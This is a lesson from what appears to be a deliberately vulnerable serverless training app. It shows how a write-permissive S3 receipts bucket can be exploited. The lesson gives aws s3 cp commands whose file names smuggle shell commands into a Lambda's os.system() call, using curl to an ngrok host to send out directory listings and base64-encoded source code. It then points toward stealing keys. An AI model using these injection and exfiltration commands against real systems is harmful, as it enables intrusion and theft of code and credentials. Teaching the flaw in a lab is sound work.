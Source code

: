 
# LESSON #4: Insecure Cloud Configuration

The DVSA is using cloud storage (i.e. S3 bucket) to upload order receipts. After a payment is processed successfully, a receipts is issued and uploaded to the bucket. When the order is processed for shipment, the file is downloaded from the bucket, modified and uploaded back as a final format receipt that is sent to the user via email.

However, since the S3 is configured insecurely, it is possible to upload files to the bucket with any AWS account. For example, if you install the aws-sdk, you can simply run the command: ```aws s3 cp /path/to/local/file s3://DVSA-RECEIPTS-BUCKET-{id}```

![alt s3-upload](https://i.imgur.com/K3sE1pf.png)

*Note, that you won't be able to run ```ls``` with an account different thatn the account where the DVSA is deployed, since it is misconfigured with WRITE permissions, and not with READ. At least not yet :)*

Let's see how to exploit it:

1. If you completed at least one order, you will receive an email with a link to download the receipt. It should look something like that:

![alt receript-sample](https://i.imgur.com/XwcHgF3.png)


You can notice that the path to the file in the bucket is the date. e.g. 2018/12/24/{receipt-uuid}.txt.

2. So let's fake a receipt and see what happens. Using the aws-sdk we can simply run the command:

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;curl 0c971764.ngrok.io?data="$(ls)";echo x.raw' --profile hacker
```
(The *echo x.raw* at the end of the file name is used to trigger the function, which is only triggered when a .raw file is created).

![alt ls](https://i.imgur.com/h9mw2qV.png)


3. We know the file's name, let's extract its code:
```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?code="$(cat lambda_function.py | base64 --wrap=0)" echo x.raw' --profile hacker
```

We now have the code in Base64 (I cut out most of it for a better screenshot).
![alt b64-code](https://i.imgur.com/KcklwO0.png)


Let's decode: ```echo <BASE64_STRING> | base64 --decode > /tmp/lambda.py```

![alt code](https://i.imgur.com/GD3YwJg.png)

We can now see the vulnerable code - os.system() - which uses the name of the uploaded file as part of the command. 

You now have all the information further exploit it, [stealing keys](../LESSONS/lesson_06.md) or executing any other command.





